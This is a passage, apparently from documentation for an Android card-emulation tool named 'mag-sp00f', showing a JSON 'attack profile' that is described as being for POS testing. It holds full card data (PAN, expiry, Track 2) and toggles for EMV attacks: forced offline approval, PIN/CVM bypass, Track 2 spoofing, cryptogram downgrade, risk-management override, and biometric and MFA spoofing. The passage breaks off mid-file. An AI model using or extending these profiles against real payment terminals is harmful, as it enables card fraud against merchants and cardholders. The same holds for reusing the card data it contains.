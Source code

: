 ### Method 1: JSON Configuration Files

**Location**: `android-app/src/main/assets/attack_profiles/`

#### Basic Profile Structure
```json
{
    "profile_metadata": {
        "name": "stealth_bypass",
        "description": "Low-detection bypass attacks for POS testing",
        "version": "1.0",
        "author": "mag-sp00f",
        "created": "2025-09-21",
        "risk_level": "low"
    },
    "card_profile": {
        "pan": "4154904674973556",
        "expiry": "2902",
        "track2": "4154904674973556D29022010000820083001F",
        "cardholder_name": "CARDHOLDER/VISA",
        "supported_aids": ["A0000000031010", "A0000000980840"]
    },
    "attack_configuration": {
        "ppse_aid_poisoning": {
            "enabled": false,
            "target_aid": "A0000000041010",
            "poison_type": "visa_to_mastercard"
        },
        "aip_force_offline": {
            "enabled": true,
            "force_offline": true,
            "remove_cda": false,
            "set_sda_only": false
        },
        "track2_spoofing": {
            "enabled": false,
            "spoof_pan": "4111111111111111",
            "spoof_expiry": "2912",
            "spoof_service_code": "201"
        },
        "cryptogram_downgrade": {
            "enabled": false,
            "downgrade_type": "arqc_to_tc",
            "manipulate_cvr": true
        },
        "cvm_bypass": {
            "enabled": true,
            "bypass_pin": true,
            "bypass_signature": false,
            "no_cvm_required": true
        },
        "advanced_force_offline": {
            "enabled": false,
            "manipulate_terminal_caps": true,
            "override_risk_management": true,
            "max_offline_amount": 500000
        },
        "enhanced_cvm_bypass": {
            "enabled": false,
            "spoof_biometric": true,
            "bypass_mfa": true,
            "biometric_types": ["fingerprint", "face"]
        },
        "amount_manipulation": {
```